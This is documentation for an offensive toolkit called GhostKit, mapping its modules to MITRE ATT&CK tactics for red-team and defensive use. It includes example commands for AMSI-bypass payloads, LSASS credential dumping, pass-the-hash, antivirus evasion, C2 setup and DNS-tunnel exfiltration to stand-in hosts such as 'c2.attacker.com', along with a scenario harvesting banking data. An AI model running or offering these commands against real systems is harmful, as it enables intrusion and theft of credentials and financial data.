

# MITRE ATT&CK Framework Mapping



> "Know thy tactics, know thy techniques" — GhostKit Offensive Philosophy

## Introduction

This document maps GhostKit modules and capabilities to the MITRE ATT&CK® Enterprise framework, providing security professionals with a comprehensive understanding of how GhostKit's functionality aligns with documented adversary tactics and techniques.

## Tactical Overview

GhostKit modules cover the following MITRE ATT&CK tactics:

```mermaid
graph LR
    A[Initial Access] --> B[Execution]
    B --> C[Persistence]
    C --> D[Privilege Escalation]
    D --> E[Defense Evasion]
    E --> F[Credential Access]
    F --> G[Discovery]
    G --> H[Lateral Movement]
    H --> I[Collection]
    I --> J[Command and Control]
    J --> K[Exfiltration]
    K --> L[Impact]
```



## Detailed Mapping

### Initial Access (TA0001)

| Technique ID | Technique Name | GhostKit Module | Implementation |
|--------------|----------------|-----------------|----------------|
| T1190 | Exploit Public-Facing Application | `web_scanner`, `exploit_engine` | Automated web vulnerability scanning and exploitation |
| T1133 | External Remote Services | `vpn_scanner`, `rdp_brute` | VPN/RDP enumeration and authentication attacks |
| T1566 | Phishing | `phishing_toolkit`, `social_engineering` | Phishing campaign management and payload delivery |
| T1091 | Replication Through Removable Media | `usb_deployer` | USB-based attack vector deployment |
| T1195 | Supply Chain Compromise | `supply_chain_analyzer` | Supply chain vulnerability assessment |

#### Example: Web Application Exploitation

```bash
# Scan for vulnerabilities in public-facing web applications
python ghostkit.py -m web_scanner -u https://target-app.com --vuln-scan

# Exploit identified vulnerabilities
python ghostkit.py -m exploit_engine --from-scan reports/web_scan_*.json --auto-exploit
```

### Execution (TA0002)

| Technique ID | Technique Name | GhostKit Module | Implementation |
|--------------|----------------|-----------------|----------------|
| T1059 | Command and Scripting Interpreter | `command_injector`, `script_executor` | Execution of commands/scripts on compromised systems |
| T1203 | Exploitation for Client Execution | `client_side_exploiter` | Browser/document-based exploitation |
| T1106 | Native API | `api_executor` | Leveraging native APIs for execution |
| T1204 | User Execution | `macro_generator` | Social engineering-based execution |
| T1047 | Windows Management Instrumentation | `wmi_executor` | WMI-based command execution |

#### Example: PowerShell Execution

```bash
# Generate obfuscated PowerShell payload
python ghostkit.py -m payload_gen --type powershell --obfuscate --technique amsi-bypass

# Execute payload through WMI
python ghostkit.py -m wmi_executor --target 192.168.1.100 --payload payloads/obfuscated.ps1
```

### Persistence (TA0003)

| Technique ID | Technique Name | GhostKit Module | Implementation |
|--------------|----------------|-----------------|----------------|
| T1098 | Account Manipulation | `account_manager` | Privileged account creation/modification |
| T1547 | Boot or Logon Autostart Execution | `autostart_manager` | Registry/startup folder persistence |
| T1136 | Create Account | `account_creator` | Local/domain account creation |
| T1053 | Scheduled Task/Job | `scheduler` | Task scheduling for persistence |
| T1505 | Server Software Component | `webshell_deployer` | Web shell and backdoor deployment |

#### Example: Scheduled Task Persistence

```bash
# Create a scheduled task for persistence
python ghostkit.py -m scheduler --target 192.168.1.100 --task-name "SystemUpdate" \
  --payload payloads/backdoor.exe --schedule "daily" --user-context SYSTEM
```

### Privilege Escalation (TA0004)

| Technique ID | Technique Name | GhostKit Module | Implementation |
|--------------|----------------|-----------------|----------------|
| T1548 | Abuse Elevation Control Mechanism | `uac_bypass` | UAC bypass techniques |
| T1068 | Exploitation for Privilege Escalation | `local_exploit` | Local privilege escalation exploits |
| T1574 | Hijack Execution Flow | `dll_hijacker` | DLL search order hijacking |
| T1055 | Process Injection | `process_injector` | Code injection into privileged processes |
| T1078 | Valid Accounts | `privilege_analyzer` | Identifying accounts with excessive privileges |

#### Example: Local Privilege Escalation

```bash
# Scan for privilege escalation vectors
python ghostkit.py -m priv_scanner --target 192.168.1.100 --scan-type full

# Exploit kernel vulnerability
python ghostkit.py -m local_exploit --target 192.168.1.100 --exploit CVE-2023-xxxx
```

### Defense Evasion (TA0005)

| Technique ID | Technique Name | GhostKit Module | Implementation |
|--------------|----------------|-----------------|----------------|
| T1140 | Deobfuscate/Decode Files or Information | `payload_encoder` | Multi-stage payload encoding/decoding |
| T1070 | Indicator Removal on Host | `log_cleaner` | Log manipulation and cleanup |
| T1036 | Masquerading | `binary_masquerader` | Disguising malicious files as legitimate |
| T1027 | Obfuscated Files or Information | `obfuscator` | Code/payload obfuscation |
| T1497 | Virtualization/Sandbox Evasion | `sandbox_detector` | VM/sandbox detection and evasion |

#### Example: Evading Antivirus Detection

```bash
# Obfuscate a payload to evade detection
python ghostkit.py -m obfuscator --input payloads/shell.exe --technique polymorphic \
  --iterations 3 --test-against defender,mcafee,symantec

# Deploy with sandbox detection
python ghostkit.py -m payload_deployer --payload payloads/obfuscated.exe \
  --sandbox-evasion --environment-awareness
```

### Credential Access (TA0006)

| Technique ID | Technique Name | GhostKit Module | Implementation |
|--------------|----------------|-----------------|----------------|
| T1110 | Brute Force | `brute_forcer` | Authentication brute-forcing |
| T1003 | OS Credential Dumping | `credential_dumper` | Memory/registry credential extraction |
| T1552 | Unsecured Credentials | `credential_hunter` | Searching for stored credentials |
| T1555 | Credentials from Password Stores | `password_extractor` | Extraction from password managers |
| T1539 | Steal Web Session Cookie | `cookie_stealer` | Web session hijacking |

#### Example: Credential Harvesting

```bash
# Search for plaintext credentials in files
python ghostkit.py -m credential_hunter --target 192.168.1.100 --search-depth full

# Dump credentials from memory
python ghostkit.py -m credential_dumper --target 192.168.1.100 --technique lsass
```

### Discovery (TA0007)

| Technique ID | Technique Name | GhostKit Module | Implementation |
|--------------|----------------|-----------------|----------------|
| T1087 | Account Discovery | `account_enumerator` | Local/domain account enumeration |
| T1018 | Remote System Discovery | `network_scanner` | Network host discovery |
| T1082 | System Information Discovery | `system_profiler` | Detailed system information gathering |
| T1016 | System Network Configuration Discovery | `network_analyzer` | Network configuration analysis |
| T1049 | System Network Connections Discovery | `connection_analyzer` | Active connection enumeration |

#### Example: Network Discovery

```bash
# Perform stealthy network discovery
python ghostkit.py -m network_scanner --target 10.0.0.0/24 --scan-type passive \
  --service-detection --os-fingerprint --output-format json

# Map active directory structure
python ghostkit.py -m ad_mapper --domain example.local --techniques ldap,kerberos,smb
```

### Lateral Movement (TA0008)

| Technique ID | Technique Name | GhostKit Module | Implementation |
|--------------|----------------|-----------------|----------------|
| T1021 | Remote Services | `remote_service_exploiter` | Exploitation of remote management services |
| T1091 | Replication Through Removable Media | `lateral_usb` | USB-based lateral movement |
| T1550 | Use Alternate Authentication Material | `pass_the_hash`, `pass_the_ticket` | Authentication material reuse |
| T1563 | Remote Service Session Hijacking | `session_hijacker` | RDP/SSH session hijacking |
| T1570 | Lateral Tool Transfer | `tool_deployer` | Moving tools between compromised systems |

#### Example: Pass-the-Hash Attack

```bash
# Use harvested NTLM hash for lateral movement
python ghostkit.py -m pass_the_hash --target 192.168.1.200 \
  --hash aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99 \
  --username Administrator --command "whoami"
```

### Collection (TA0009)

| Technique ID | Technique Name | GhostKit Module | Implementation |
|--------------|----------------|-----------------|----------------|
| T1005 | Data from Local System | `data_harvester` | Local file/data collection |
| T1039 | Data from Network Shared Drive | `share_harvester` | Network share data collection |
| T1025 | Data from Removable Media | `removable_media_harvester` | Data collection from removable devices |
| T1056 | Input Capture | `keylogger` | Keystroke logging |
| T1113 | Screen Capture | `screen_capturer` | Desktop screenshot capture |

#### Example: Data Collection

```bash
# Collect sensitive data based on patterns
python ghostkit.py -m data_harvester --target 192.168.1.100 --patterns "password,key,token,secret" \
  --file-types "txt,ini,config,xml,json" --max-size 10MB

# Capture screenshots periodically
python ghostkit.py -m screen_capturer --target 192.168.1.100 --interval 30s --duration 1h
```

### Command and Control (TA0011)

| Technique ID | Technique Name | GhostKit Module | Implementation |
|--------------|----------------|-----------------|----------------|
| T1071 | Application Layer Protocol | `c2_framework` | HTTP/HTTPS-based command and control |
| T1573 | Encrypted Channel | `encrypted_comms` | Custom encrypted communication |
| T1008 | Fallback Channels | `multi_protocol_c2` | Redundant C2 channels |
| T1105 | Ingress Tool Transfer | `payload_delivery` | Transferring tools to compromised systems |
| T1090 | Proxy | `proxy_manager` | Multi-layer proxy infrastructure |

#### Example: Multi-Channel C2

```bash
# Set up multi-protocol C2 infrastructure
python ghostkit.py -m c2_framework --channels https,dns,icmp --encryption chacha20 \
  --domain-fronting --rotation-interval 1h

# Establish communication with implant
python ghostkit.py -m c2_controller --target implant001 --task-module shell --command "hostname"
```

### Exfiltration (TA0010)

| Technique ID | Technique Name | GhostKit Module | Implementation |
|--------------|----------------|-----------------|----------------|
| T1020 | Automated Exfiltration | `auto_exfiltrator` | Scheduled/triggered data exfiltration |
| T1048 | Exfiltration Over Alternative Protocol | `protocol_exfiltrator` | DNS/ICMP/other protocol exfiltration |
| T1041 | Exfiltration Over C2 Channel | `c2_exfiltrator` | Exfiltration through established C2 |
| T1052 | Exfiltration Over Physical Medium | `physical_exfiltrator` | USB/Bluetooth exfiltration |
| T1567 | Exfiltration Over Web Service | `web_service_exfiltrator` | Cloud storage/web service exfiltration |

#### Example: Covert Data Exfiltration

```bash
# Exfiltrate data using DNS tunneling
python ghostkit.py -m dns_exfiltrator --target 192.168.1.100 --data-source "/path/to/files" \
  --dns-server attacker.com --chunking 200 --encoding base32 --throttle 10kbps
```

### Impact (TA0040)

| Technique ID | Technique Name | GhostKit Module | Implementation |
|--------------|----------------|-----------------|----------------|
| T1485 | Data Destruction | `data_wiper` | Secure data wiping capabilities |
| T1486 | Data Encrypted for Impact | `ransomware_simulator` | Encryption simulation (for testing) |
| T1489 | Service Stop | `service_manager` | Critical service manipulation |
| T1529 | System Shutdown/Reboot | `system_controller` | Remote system power control |
| T1565 | Data Manipulation | `data_manipulator` | File/database integrity attacks |

#### Example: Service Disruption Testing

```bash
# Test impact of service disruption (authorized tests only)
python ghostkit.py -m service_manager --target 192.168.1.100 --action analyze-dependencies \
  --services http,dns,sql --simulation-only
```

## Mitigations

For each GhostKit capability, apply these corresponding mitigations:

| Tactic | Primary Mitigations | GhostKit Detection Signatures |
|--------|---------------------|-------------------------------|
| Initial Access | Network segmentation, WAF, Email filtering | `web_scanner` signatures, connection patterns |
| Execution | Application control, Script blocking | Command patterns, Memory signatures |
| Persistence | Privileged account management, Configuration baselining | Registry/startup changes, Scheduled task creation |
| Privilege Escalation | Patch management, Least privilege | Exploitation patterns, Token manipulation |
| Defense Evasion | Behavior monitoring, Memory scanning | Obfuscation patterns, Process injection |
| Credential Access | Multi-factor authentication, Credential vaulting | Memory access patterns, Brute force attempts |
| Discovery | Network monitoring, Activity baselining | Scanning patterns, LDAP/SMB enumeration |
| Lateral Movement | Network segmentation, Authentication logging | Pass-the-hash signatures, Remote execution |
| Collection | Data Loss Prevention, Endpoint monitoring | File access patterns, Screenshot creation |
| Command and Control | Deep packet inspection, DNS monitoring | C2 traffic patterns, Domain fronting |
| Exfiltration | Egress filtering, Traffic analysis | Data chunking, Protocol anomalies |
| Impact | Backup solutions, Service monitoring | Service disruption, Encryption patterns |

## Scenario Mappings

### APT Emulation: Banking Sector

This scenario emulates a sophisticated threat targeting financial institutions:

1. **Initial Access** (T1566): Spear-phishing with document payload
   ```bash
   python ghostkit.py -m phishing_toolkit --target-sector banking --template quarterly-report
   ```

2. **Execution** (T1204): Malicious macro execution
   ```bash
   python ghostkit.py -m macro_generator --payload dropper --obfuscation-level high
   ```

3. **Persistence** (T1547): Registry run key
   ```bash
   python ghostkit.py -m autostart_manager --technique registry --key-path HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run
   ```

4. **Discovery** (T1082/T1083): System and file discovery
   ```bash
   python ghostkit.py -m system_profiler --target %hostname% --full-scan
   ```

5. **Collection** (T1005): Financial data targeting
   ```bash
   python ghostkit.py -m data_harvester --patterns "account,routing,swift,iban" --file-types xlsx,csv,pdf
   ```

6. **Exfiltration** (T1048): DNS tunneling
   ```bash
   python ghostkit.py -m dns_exfiltrator --data-source collected_data/ --dns-server c2.attacker.com
   ```

### Ransomware Simulation

For defensive testing of ransomware protection:

1. **Initial Access** (T1190): Exploitation of public-facing application
   ```bash
   python ghostkit.py -m web_scanner --exploit-only --cve CVE-2021-34473
   ```

2. **Discovery** (T1135): Share enumeration
   ```bash
   python ghostkit.py -m share_enumerator --target 192.168.1.0/24 --recursive
   ```

3. **Impact** (T1486): Ransomware simulation (test mode only)
   ```bash
   python ghostkit.py -m ransomware_simulator --target test_directory/ --simulation-only --no-actual-encryption
   ```

## Integration with Threat Intelligence

GhostKit can be aligned with threat intelligence to simulate specific threat actors:

```bash
# Load APT29 TTP profile
python ghostkit.py --load-profile apt29 --simulation-mode

# Load threat intelligence feed
python ghostkit.py --ti-source mitre_feeds --group APT28 --update-modules
```

## MITRE ATT&CK Navigator Integration

GhostKit can generate ATT&CK Navigator layers to visualize coverage:

```bash
# Generate ATT&CK Navigator layer
python ghostkit.py --generate-layer --include-modules all --output-file ghostkit_layer.json

# Generate layer for specific module set
python ghostkit.py --generate-layer --include-modules web_scanner,exploit_engine,c2_framework --output-file redteam_layer.json
```

Example Navigator visualization:


## References

- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [MITRE ATT&CK Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/)
- [ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/)
- [GhostKit Module Documentation](../getting-started/overview.md)

---

*Last updated: May 30, 2025*
